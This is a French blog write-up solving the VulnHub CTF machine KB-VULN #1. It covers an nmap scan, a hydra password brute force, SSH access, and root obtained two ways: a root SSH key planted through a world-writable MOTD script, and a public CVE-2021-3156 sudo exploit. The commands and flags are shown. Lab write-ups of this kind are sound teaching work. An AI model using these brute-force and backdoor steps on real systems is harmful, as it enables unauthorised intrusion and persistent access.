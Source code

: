 ```yaml
---
title: Solution du CTF KB-VULN #1 de VulnHub
tags: [CTF, VulnHub]
---
```


Rapide et furieux
-----------------

Combien de temps faut-il pour résoudre un CTF ? Tout dépend bien sûr de la difficulté du challenge et des compétences du joueur.  

Pour celui-ci ([KB-VULN n°1](https://www.vulnhub.com/entry/kb-vuln-1,540/)) on est bien plus près des minutes que des heures, il n'en reste pas moins qu'on peut s'amuser (vite fait).  

```plain
Nmap scan report for 192.168.56.5
Host is up (0.00015s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.56.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 95:84:46:ae:47:21:d1:73:7d:2f:0a:66:87:98:af:d3 (RSA)
|   256 af:79:86:77:00:59:3e:ee:cf:6e:bb:bc:cb:ad:96:cc (ECDSA)
|_  256 9d:4d:2a:a1:65:d4:f2:bd:5b:25:22:ec:bc:6f:66:97 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: OneSchool — Website by Colorlib
|_http-server-header: Apache/2.4.29 (Ubuntu)
MAC Address: 08:00:27:09:6B:FC (Oracle VirtualBox virtual NIC)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Dans le FTP on trouve un fichier *.bash\_history*. Est-ce le dossier personnel d 'un utilisateur quelconque ? Dans tous les cas on ne dispose pas d'accès en écriture donc on s'arrête là.  

Une énumération de la racine web ne remonte rien mais un coup d'oeil à la source de la page d'index permet de trouver un nom d'utilisateur :  

```html
<!-- Username : sysadmin -->
```

Aussitôt dit, aussitôt cracké :  

```plain
$ ./hydra -l sysadmin -P rockyou.txt -e nsr ftp://192.168.56.5
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344407 login tries (l:1/p:14344407), ~896526 tries per task
[DATA] attacking ftp://192.168.56.5:21/
[21][ftp] host: 192.168.56.5   login: sysadmin   password: password1
1 of 1 target successfully completed, 1 valid password found
```

Cet identifiant permet l'accès au FTP mais surtout au SSH où l'on retrouve un premier flag.  

```plain
sysadmin@kb-server:~$ cat user.txt 
48a365b4ce1e322a55ae9017f3daf0c0
```

Cet utilisateur fait partie des groupes sudo et lxd :  

```plain
uid=1000(sysadmin) gid=1000(sysadmin) groups=1000(sysadmin),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

Un petit coup de LinPEAS indique que le fichier */etc/update-motd.d/00-header* appartenant à root mais est word-writable.  

D'après [la page de manuel](https://manpages.ubuntu.com/manpages/bionic/man5/update-motd.5.html) :  

```plain
Executable scripts in /etc/update-motd.d/* are executed by pam_motd(8) as the root user at
each  login,  and  this  information  is  concatenated in /run/motd.dynamic.
```

Le script actuel est le suivant :  

```bash
#!/bin/sh
#
#    00-header - create the header of the MOTD
#    Copyright (C) 2009-2010 Canonical Ltd.
#
#    Authors: Dustin Kirkland <kirkland@canonical.com>
#
#    This program is free software; you can redistribute it and/or modify
#    it under the terms of the GNU General Public License as published by
#    the Free Software Foundation; either version 2 of the License, or
#    (at your option) any later version.
#
#    This program is distributed in the hope that it will be useful,
#    but WITHOUT ANY WARRANTY; without even the implied warranty of
#    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#    GNU General Public License for more details.
#
#    You should have received a copy of the GNU General Public License along
#    with this program; if not, write to the Free Software Foundation, Inc.,
#    51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.

[ -r /etc/lsb-release ] && . /etc/lsb-release

echo "\n\t\t\tWELCOME TO THE KB-SERVER\n"
```

Je rajoute ces lignes :

```bash
echo $(id)
mkdir -p /root/.ssh
echo 'ssh-rsa --ma-cle-publique-ssh--' > /root/.ssh/authorized_keys
```

Et effectivement si je me reconnecte :  

```plain
$ ssh sysadmin@192.168.56.5
sysadmin@192.168.56.5's password: 

                        WELCOME TO THE KB-SERVER

uid=0(root) gid=0(root) groups=0(root)
```

Ce qui prouve que le script a été exécuté en root et que je me suis rajouté un accès.  

```plain
root@kb-server:~# cat flag.txt 
1eedddf9fff436e6648b5e51cb0d2ec7
```

On peut aussi obtenir l'accès root via [l'exploit pour sudo](https://github.com/worawit/CVE-2021-3156) utilisé sur le précédent CTF (Fawkes) :  

```plain
sysadmin@kb-server:~/CVE-2021-3156-main$ python3 exploit_nss.py
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd),1000(sysadmin)
```


*Published December 07 2021 at 21:51*
